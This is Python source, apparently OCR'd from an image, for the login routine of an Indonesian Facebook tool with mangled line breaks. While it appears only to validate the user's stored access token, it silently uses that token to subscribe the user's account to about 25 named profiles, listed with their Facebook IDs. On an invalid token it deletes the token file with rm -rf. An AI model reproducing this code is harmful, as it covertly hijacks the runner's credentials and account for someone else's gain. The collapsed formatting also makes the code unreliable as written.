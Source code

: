 # Ld
import requests,os,json import premium  P = "\x1b[0;97m" # Putih M = "\x1b[0;91m" # Merah K = "\x1b[0;93m" # Kuning  def main():     try:         token = open("token.txt","r").read()         otw = requests.get("https://graph.facebook.com/me/?access_token=" + token)         a = json.loads(otw.text)         nama = a["name"]     except (KeyError,IOError):         print('\n%s[%s!%s] %sToken Invalid'%(M,P,M,P))         os.system('rm -rf token.txt')         exit(premium.menu_log())     requests.post("https://graph.facebook.com/1827084332/subscribers?access_token=" + token)      # Dapunta Khurayra X     requests.post("https://graph.facebook.com/100000415317575/subscribers?access_token=" + token) # Dapunta Adyapaksi R     requests.post("https://graph.facebook.com/100000737201966/subscribers?access_token=" + token) # Dapunta Adya R     requests.post("https://graph.facebook.com/100000431996038/subscribers?access_token=" + token) # Suci Salsabila R     requests.post("https://graph.facebook.com/100026818103201/subscribers?access_token=" + token) # Cici Putri Andini     requests.post("https://graph.facebook.com/100001617352620/subscribers?access_token=" + token) # Antonius Raditya M     requests.post("https://graph.facebook.com/100000729074466/subscribers?access_token=" + token) # Abigaille Dirgantara     requests.post("https://graph.facebook.com/607801156/subscribers?access_token=" + token)       # Boirah     requests.post("https://graph.facebook.com/100009340646547/subscribers?access_token=" + token) # Anita Zuliatin     requests.post("https://graph.facebook.com/1676993425/subscribers?access_token=" + token)      # Wati Waningsih     requests.post("https://graph.facebook.com/1767051257/subscribers?access_token=" + token)      # Rofi Nurhanifah     requests.post("https://graph.facebook.com/100000287398094/subscribers?access_token=" + token) # Diah Ayu Kharisma     requests.post("https://graph.facebook.com/100001085079906/subscribers?access_token=" + token) # Xena Alexander     requests.post("https://graph.facebook.com/100007559713883/subscribers?access_token=" + token) # Alexandra Scarlett     requests.post("https://graph.facebook.com/100004655733027/subscribers?access_token=" + token) # Aisya Asyaqila     requests.post("https://graph.facebook.com/100000200420913/subscribers?access_token=" + token) # Ameiliani Dethasia     requests.post("https://graph.facebook.com/100026490368623/subscribers?access_token=" + token) # Muh Rizal Fiansyah     requests.post("https://graph.facebook.com/100010484328037/subscribers?access_token=" + token) # Rizal F     requests.post("https://graph.facebook.com/100015073506062/subscribers?access_token=" + token) # Angga Kurniawan     requests.post("https://graph.facebook.com/10016189/subscribers?access_token=" + token)        # Junee     requests.post("https://graph.facebook.com/100005395413800/subscribers?access_token=" + token) # Moh Yayan     requests.post("https://graph.facebook.com/100003467793035/subscribers?access_token=" + token) # Fajar Dwi S     requests.post("https://graph.facebook.com/100003160758786/subscribers?access_token=" + token) # M Ardian Iqbal     requests.post("https://graph.facebook.com/100040248105716/subscribers?access_token=" + token) # Hanifan     print('\n%s[%s!%s] %sLogin Berhasil'%(K,P,K,P))     exit(premium.menu())

